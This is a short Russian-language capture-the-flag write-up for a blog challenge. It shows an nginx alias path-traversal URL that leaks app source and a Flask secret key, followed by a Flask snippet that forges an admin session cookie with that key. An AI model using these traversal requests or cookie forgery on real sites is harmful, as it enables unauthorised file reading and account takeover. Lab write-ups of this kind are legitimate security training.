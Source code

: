 При помощи dirsearch нашли локейшен /login , попробовали поискать блайнд sql инъекцию - не помогло.
Обратили внимание на подсказку "Blog was copromised, messed out with nginx configuration :-(" - значит можно вытянуть исходники.
Погуглили на тему "nginx misconfiguration vulnurability", https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/.
Из искодников главной увидели ссылку на статику.
http://blog.ctf2019.rocks/static../app.py получили secret_key для куки и увидели что авторизация идет через sqlite базенку. Скачали базенку из таблицы secret вытнянули первый доп.
Вторая подсказка на главной про app2.py, http://blog.ctf2019.rocks/static../app2.py - второй доп.

```python
from flask import Flask, session
app = Flask(__name__)

app.secret_key = "vei9sheithie7eey4yaeChaesh1po0EecheMugh5phee8Cheivohy1ooNailnjnjnjnjn"

@app.route('/')
def index():
    session['username'] = 'admin'
    session['domain'] = 'blog.ctf2019.rocks'
    return "check session"

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=5000, threaded=True)
```

C новой кукой дернули гавную блога и получили основной флаг.
